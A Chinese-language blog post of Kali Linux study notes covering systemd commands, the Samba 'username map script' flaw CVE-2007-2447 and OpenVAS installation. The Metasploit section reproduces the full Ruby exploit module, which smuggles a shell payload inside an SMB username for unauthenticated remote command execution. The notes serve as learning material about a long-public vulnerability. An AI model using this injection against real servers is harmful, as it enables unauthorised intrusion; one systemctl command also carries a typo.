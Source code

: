 ```yaml
---
layout: post
title: "kali-linux-note"
date: 2017-10-17 11:56:10
image: 'kali-Linux-Destop.jpg'
description: 关于学习kali-Linux的笔记
category: '计算机'
tags:
- 计算机技术
twitter_text: 关于学习kali-Linux的笔记
introduction: 关于学习kali-Linux的笔记
color: '4A3341'
author: 夜雨
---
```


### Systemd

Systemd是一种新的linux系统服务管理器。它替换了init系统，能够管理系统的启动过程和一些系统服务，一旦启动起来，就将监管整个系统。

- 切换至字符界面
  ```sudo systemctl set-default multi-user.target```
- 切换至图形界面
  ```sudo systemctlset-default graphical.target```
- 打开图形界面
  ```sudo init 5```
### Metasploit
#### usermap_script 漏洞相关笔记
- usermap_script：CVE-2007-2447
>利用Samba用户名映射脚本命令执行
>这个模块利用漏洞执行命令，在Samba版本3.0.20到3.0.25rc3当使用非默认用户名映射脚本配置选项。 
>通过指定一个用户名包含shell元字符,攻击者可以执行任意命令。 
>不需要身份验证来利用此漏洞，因为此选项用于在身份验证之前映射用户名
>模块的位置 exploit/multi/samba/usermap_script
>用户输入未转义的参数作为参数传递到/bin/sh，允许远程命令执行
>此漏洞最初是针对匿名呼叫报告的
> 经过Samba开发者的进一步调查，结果是确定了问题更广泛和影响远程打印机和文件共享管理。 根本原因是传递通过MS-RPC提供的未过滤的用户输入在调用定义的外部脚本时调用/bin/sh，在smb.conf中。 
> 然而，不同于"username map script"漏洞，远程文件和打印机管理脚本需要经过身份验证的用户会话。
>

> 漏洞的时间线：
>
> 1. 2007年5月7日：漏洞匿名披露到security@samba.org电子邮件列表中。
> 2. 2007年5月7日：Samba的开发人员Gerald Carter开始响应这个漏洞。
> 3. 2007年5月9日：Samba的开发者Jeremy Allison发布了补丁，用于iDefense测试。
> 4. 2007年5月10日：向vendor-sec邮件列表发布通知。
> 5. 2007年5月14日：公开漏洞信息。

```
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

# 这个和Python的import还要C的include一样的作用
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
# Metasploit3是从Msf::Exploit::Remote中继承的

    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end


    def exploit

        connect

        # lol?
        username = "/=`nohup " + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end

        handler
    end

end
```
### OpenVas安装

```shell
sudo apt-get install openvas
sudo openvas-setup
```

安装过程中，会被询问关于redis的问题，选择默认选项来以Unix套接字运行。

即使是有快速的网络连接，openvas-setup 仍需要很长时间来下载和更新所有所需的 CVE、SCAP 定义。

请注意 openvas-setup 的命令输出，密码会在安装过程中生成，并在安装的最后在控制台中打印出来。

验证 openvas 正在运行:

`netstat -tulpn`

在 Kali 中启动 OpenVAS：

`openvas-start`

安装后，你应该可以通过 `https://127.0.0.1:9392` 访问 OpenVAS 的 web 程序了。

接受自签名证书，并使用 openvas-setup 输出的 admin 凭证和密码登录程序。

接受自签名证书后，你应该可以看到登录界面了。


